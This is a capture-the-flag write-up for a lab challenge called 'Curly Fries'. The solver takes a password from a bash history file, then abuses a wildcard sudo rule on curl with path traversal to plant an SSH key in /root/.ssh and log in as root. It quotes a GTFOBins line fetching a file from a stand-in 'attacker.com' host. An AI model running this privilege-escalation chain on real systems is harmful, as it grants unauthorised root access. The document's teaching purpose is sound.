 # Curly Fries
**Description:** Uh-oh, our friend Fry has been typing at the keyboard and running all kinds of commands, but his fingers are dirty from all the curly fries he has been eating!!

## Solution

1. ssh onto the machine as user.

2. I navigated to the fry user home directory

    I have privileges to their bash hisory where I found 

    ```
    sshpass -p iLoveCurlyFriesYumYumInMyTumTum ssh fry@localhost
    ```

    sweet, new creds as fry!!

3. I switched over to the user fry with the new credential found.

    ```
    sudo su fry
    ```

4. Now on as the fry user, I check for any prvileges I may have using

    ```
    sudo -l
    ```

    I notice i can run the following command as root. I also notice there is a * at the end so I can chain my commands.
    
    ```
    User fry may run the following commands on curly-fries-c8e4d1314fc58e67-7b54d6cd45-thnh6:
        (root) NOPASSWD: /usr/bin/curl 127.0.0.1\:8000/health-check*
    ```

5. I next look into [gtfobins](https://gtfobins.github.io) for anything related to curl so I can get sudo privilges and I find this. Gtfobins is helpful when trying to escalate privileges using Unix binaries in misconfigured systems, LIKE HERE!

    ```
    Sudo

    If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

        Fetch a remote file via HTTP GET request.

        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo curl $URL -o $LFILE
    ```

    this is just what I needed. Now we can write files as root.

6. I open up another terminal and connect again but as the user we started off with, `user`. My goal now is to create a ssh key pair and copy over the public key in the root directory to ssh as root.
    
    1. first I must create the key pair
    
        ```
        ssh-keygen -t rsa
        ```
    
    1. now I can create the file that I will copy over. This file will be named `authorized_keys` because this is what ssh uses (under /root/.ssh/authorized_keys) to authenticate with our private key.

        ```
        cat id_rsa.pub > authorized_keys
        ```

    1. next we can start up our http server, luckily this machine has python installed so we can use that. I will start this in the directory of my file and with port 8000 (based on the command we are authorized to run as root for the user fry).

        ```
        python3 -m http.server 8000
        ```

    1. going back to our fry user, I can run the following command to download the file to /root/.ssh/

        ```
        sudo /usr/bin/curl 127.0.0.1\:8000/health-check/.././authorized_keys -o /root/.ssh/authorized_keys
        ```
    
        this command will download the `authorized_keys` file we created from the http server `user` is running then copy the output to /root/.ssh/ and we are allowed to do so thanks to our permissions as `fry`

7. At this point, we have created a key pair and the public key has been added to the root user.

    all that is left is to run the following to connect locally and get our flag in the root directory.

    ```
    ssh -i id_rsa root@localhost
    ```

![ultimate](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExbzZoMDc1ODNxbzdzNmU1YjcxaDN5M3R4NXo5ejExcGlyODZwaG05ZSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/GRSnxyhJnPsaQy9YLn/giphy.gif)